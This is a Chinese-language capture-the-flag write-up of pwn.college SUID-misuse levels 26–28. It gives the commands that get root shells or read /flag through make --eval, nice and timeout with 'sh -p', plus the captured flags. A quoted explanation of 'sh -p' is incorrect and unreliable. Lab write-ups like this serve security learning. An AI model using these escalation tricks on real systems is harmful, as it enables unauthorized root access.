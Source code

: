 有点儿意思啊，直接出现了GNU Make了
```
hacker@program-misuse-level-26:~$ COMMAND='cat /flag';make -s --eval=$'x:\n\t-'"$COMMAND"
pwn.college{oYDGLL2PogQjUYR2TV30VTUm-4z.0FO2EDL2QjMyMzW}
hacker@program-misuse-level-26:~$
```
这个搜了一下，然后不光查到了正确答案还发现自己做错了，出题人想要的是 sh -p 这样提权
>这个命令的作用是启动一个新的shell进程，并将该进程的环境变量设置为当前shell进程的环境变量。
>
>具体来说，这个命令包含以下部分：
>
>env：这是一个用于执行命令时设置环境变量的工具。在这个命令中，它用于将当前shell进程的所有环境变量传递给新的shell进程。
>
>sh：这是一个用于启动shell进程的命令。在这个命令中，它用于启动一个新的shell进程。
>
>-p：这是一个选项，用于告诉新的shell进程将其环境变量设置为当前shell进程的环境变量。具体来说，它会将当前shell进程的环境变量从环境变量文件（如/etc/environment、/etc/profile、~/.bashrc等）中读取，并将其设置为新的shell进程的环境变量。
>
>因此，这个命令的效果是启动一个新的shell进程，并将其环境变量设置为当前shell进程的环境变量。这可以用于测试shell脚本或命令对环境变量的影响，或者在两个不同的shell进程之间共享环境变量。

看起来就是赋权，然后会拿到一个新的shell提示符
## level27 Enables you to read flags by making them execute other commands!
```
hacker@program-misuse-level-27:~$ sh file.sh
Welcome to ./babysuid_level27!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/nice.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level27) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/nice!
```
`nice`工具:用于以指定的进程调度优先级启动其他的程序。
```
hacker@program-misuse-level-27:~$ nice /bin/sh -p
# cat /flag
pwn.college{celMGA3nJomrVQwA5iPwIY2IORz.0VO2EDL2QjMyMzW}
#
```
这样才是题目想要的，我傻了

## level28 Enables you to read flags by making them execute other commands!
```
hacker@program-misuse-level-28:~$ sh file.sh
Welcome to ./babysuid_level28!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/timeout.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level28) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/timeout!
```
`timeout`工具：用来指定时间后杀死进程的。
```
hacker@program-misuse-level-28:~$ timeout 1h /bin/sh -p
```